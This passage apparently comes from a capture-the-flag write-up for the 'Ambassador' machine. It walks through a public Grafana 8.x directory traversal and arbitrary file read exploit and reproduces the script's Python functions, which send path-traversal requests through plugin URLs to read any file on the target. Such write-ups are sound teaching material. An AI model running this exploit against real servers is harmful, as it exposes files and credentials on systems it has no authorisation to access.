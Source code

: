 

The one in 8.3.0 is labeled directory traversal and arbitrary file read.
That version is one minor version up from what's running on Ambassador,
which is close enough that I should try it.

#### Exploit Analysis

I'll grab a copy of the exploit script to take a look with
`searchsploit -m multiple/webapps/50581.py`.

`main` just takes a host and then passed that to `exploit`:



    def main():
        parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
        parser.add_argument('-H',dest='host',required=True, help="Target host")
        args = parser.parse_args()

        try:
            exploit(args)
        except KeyboardInterrupt:
            return



`exploit` drops into a `while True` loop, reading a file, and then
fetching it with a random choice from a long list of plugins:



    def exploit(args):
        s = requests.Session()
        headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

        while True:
            file_to_read = input('Read file > ')

            try:
                url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
                req = requests.Request(method='GET', url=url, headers=headers)
                prep = req.prepare()
                prep.url = url
                r = s.send(prep, verify=False, timeout=3)

                if 'Plugin file not found' in r.text:
                    print('[-] File not found\n')
                else:
                    if r.status_code == 200:
                        print(r.text)
                    else:
                        print('[-] Something went wrong.')
                        return
            except requests.exceptions.ConnectTimeout:
                print('[-] Request timed out. Please check your host settings.\n')
                return
            except Exception:
                pass
